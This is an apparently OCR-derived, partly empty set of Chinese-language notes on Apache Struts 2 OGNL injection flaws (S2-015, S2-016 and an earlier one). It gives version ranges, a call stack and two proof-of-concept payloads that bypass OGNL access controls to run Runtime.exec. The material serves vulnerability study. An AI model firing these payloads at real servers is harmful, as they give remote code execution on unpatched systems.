 底层G点

``

    [ PoC样本 ]
        ?foo=(\u0023context['xwork.MethodAccessor.denyMethodExecution']=false,\u0023_memberAccess['allowStaticMethodAccess']=true,@java.lang.Runtime@getRuntime().exec('calc'))(a)
        &z[(foo)(a)]=1

表达式

- 最终解析：
- 抽象模型：

S2-012
S2-013
S2-014

### [S2-015](https://cwiki.apache.org/confluence/display/WW/S2-015)

触发条件

1. Struts 2.0.0 - 2.3.14.2

作用域

### [S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)

触发条件

1. Struts 2.0.0 - 2.3.15

作用域

1. 任意action *（常规的`?redirect:`或`?redirectAction:`形式）*

底层G点

`TextParseUtil.translateVariables()`

    [ PoC样本 ]
        ${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#f=@java.lang.Runtime@getRuntime().exec('calc'),#f.close}

    [ 关键调用栈 ]
        // 设置method
        -> org.apache.struts2.dispatcher.mapper.DefaultActionMapper.getMapping()
        -> org.apache.struts2.dispatcher.mapper.DefaultActionMapper.handleSpecialParameters()
        -> org.apache.struts2.dispatcher.mapper.ParameterAction.execute()  // 在DefaultActionMapper构造函数中定义
        -> org.apache.struts2.dispatcher.mapper.ActionMapping.setResult()
        // 获取和调用method
        -> org.apache.struts2.dispatcher.Dispatcher.serviceAction()
        -> org.apache.struts2.dispatcher.StrutsResultSupport.execute()
        -> org.apache.struts2.dispatcher.StrutsResultSupport.conditionalParse()
        -> com.opensymphony.xwork2.util.TextParseUtil.translateVariables()
        -> com.opensymphony.xwork2.util.OgnlValueStack.findValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()
